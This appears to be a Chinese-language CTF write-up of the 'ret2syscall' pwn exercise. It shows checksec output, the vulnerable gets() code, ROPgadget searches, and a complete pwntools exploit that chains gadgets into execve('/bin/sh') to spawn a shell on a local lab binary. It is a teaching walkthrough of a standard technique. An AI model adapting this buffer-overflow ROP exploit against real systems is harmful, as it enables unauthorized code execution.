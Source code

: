 # # PWN Exercise - ret2syscall

## 准备
ROPgadget Install

```
$ sudo pip install capstone
$ pip install ropgadget
$ ROPgadget
```
https://github.com/JonathanSalwan/ROPgadget



## 题目

>题目：获取shell。


pwn checksec
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
伪代码：
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```
## PWN
- 由于我们不能直接利用程序中的某一段代码或者自己填写代码来获得 shell，所以我们利用程序中的 gadgets 来获得 shell，而对应的 shell 获取则是利用系统调用。   
- 系统调用的利用方式，通常在静态链接时比较常用。

### 构造ROP

简单地说，只要我们把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么我们在执行 int 0x80 就可执行对应的系统调用。比如说这里我们利用如下系统调用来获取 shell   

`execve("/bin/sh",NULL,NULL)`
>该程序是 32 位，所以我们需要使得   
系统调用号，即 eax 应该为 0xb   
第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。   
第二个参数，即 ecx 应该为 0   
第三个参数，即 edx 应该为 0   
```
; NASM
int execve(const char *filename, char *const argv[], char *const envp[]); 
mov eax, 0xb                ; execve系统调用号为11
mov ebx, filename   
mov ecx, argv
mov edx, envp
int 0x80                    ; 触发系统调用
```


该利用原理：  
>只要用户态栈空间能够控制成这样(只是举例其中的一种排列方式)就可以达到ret2syscall的目的 简单分析一下流程： 1、成功溢出 2、通过ret指令使得EIP指向pop eax;的地址 3、执行pop eax;栈顶值0xb成功出栈，栈顶指针下移 4、通过ret指令使得EIP指向pop ebx;的地址 ..... 一切都清楚后，下面就开始进行创造条件。
![](https://pic4.zhimg.com/80/v2-f23f207af738984e8c23ff8f0a84eeb3_1440w.jpg)

### ROPgadget
pop eax;ret 
```
$ ROPgadget --binary ret2syscall --only 'pop|ret' | grep eax

0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret

```
pop ebx;ret
```
$ ROPgadget --binary ret2syscall --only 'pop|ret' | grep ebx
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048547 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```
/bin/sh
```
$ ROPgadget --binary ret2syscall --string '/bin/sh'
Strings information
============================================================
0x080be408 : /bin/sh

```

pop ecx;ret
```
$ ROPgadget --binary ret2syscall --only 'pop|ret' | grep ecx
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret

```
pop edx;ret
```
$ ROPgadget --binary ret2syscall --only 'pop|ret' | grep edx
0x0806eb69 : pop ebx ; pop edx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0806eb6a : pop edx ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret

```
int 0x80
```
$ ROPgadget --binary ret2syscall --only 'int'
Gadgets information
============================================================
0x08049421 : int 0x80

Unique gadgets found: 1
```

### EXP
```python
from pwn import *

elf = ELF('ret2syscall')
io =process(elf.path)

pop_eax_ret_addr = 0x080bb196 # pop eax;ret
pop_ebx_ecx_edx_ret_addr = 0x0806eb90 # pop edx ; pop ecx ; pop ebx ; ret
bin_sh_addr = 0x080be408 # /bin/sh
int_addr = 0x08049421 # int 0x80

payload = b'a' * 0x6c + b'bbbb'
payload += p32(pop_eax_ret_addr)+p32(0xb)
payload += p32(pop_ebx_ecx_edx_ret_addr) + p32(0)+p32(0)+p32(bin_sh_addr)
payload += p32(int_addr)

io.sendline(payload)
io.interactive()
```
## Ref

- https://zhuanlan.zhihu.com/p/137144976
- https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic-rop-zh/